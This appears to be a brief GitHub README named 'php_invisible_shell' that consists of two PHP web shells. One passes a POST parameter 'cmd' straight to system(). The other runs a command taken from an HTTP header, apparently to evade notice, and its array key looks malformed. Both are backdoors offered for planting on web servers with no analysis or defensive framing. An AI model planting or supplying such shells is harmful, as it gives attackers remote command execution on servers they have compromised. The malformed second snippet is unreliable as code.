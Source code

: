 # php_invisible_shell

```
<?php

system($_POST['cmd']);

?>
```

```
<?php

system($_SERVER['["HTTP_ACCEPT_LANGUAGE"]']);

?>
```
